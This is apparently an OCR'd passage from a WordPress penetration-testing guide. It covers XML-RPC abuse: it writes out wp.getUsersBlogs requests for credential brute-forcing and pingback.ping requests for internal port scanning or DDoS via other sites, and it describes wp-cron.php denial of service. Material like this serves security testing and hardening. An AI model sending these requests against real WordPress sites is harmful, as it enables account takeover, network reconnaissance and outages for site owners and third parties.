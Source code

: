 Credentials Bruteforce

wp.getUserBlogs, wp.getCategories or metaWeblog.getUsersBlogs are some of the methods that can be used to brute-force credentials. If you can find any of them you can send something like:

<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>admin</value></param>
<param><value>pass</value></param>
</params>
</methodCall>

The message "Incorrect username or password" inside a 200 code response should appear if the credentials aren't valid.

Also there is a faster way to brute-force credentials using system.multicall as you can try several credentials on the same request:
DDoS or port scanning

If you can find the method pingback.ping inside the list you can make the Wordpress send an arbitrary request to any host/port.
This can be used to ask thousands of Wordpress sites to access one location (so a DDoS is caused in that location) or you can use it to make Wordpress lo scan some internal network (you can indicate any port).

<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>

If you get faultCode with a value greater then 0 (17), it means the port is open.

Take a look to the use of system.multicallin the previous section to learn how to abuse this method to cause DDoS.
wp-cron.php DoS

This file usually exists under the root of the Wordpress site: /wp-cron.php
When this file is accessed a "heavy" MySQL query is performed, so I could be used by attackers to cause a DoS.
Also,  by default, the wp-cron.php is called on every page load (anytime a client requests any Wordpress page), which on high-traffic sites can cause problems (DoS).

It is recommended to disable Wp-Cron and create a real cronjob inside the host that perform the needed actions in a regular interval (without causing issues).
 Bruteforce

<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>username</value></param>
<param><value>password</value></param>
</params>
</methodCall>

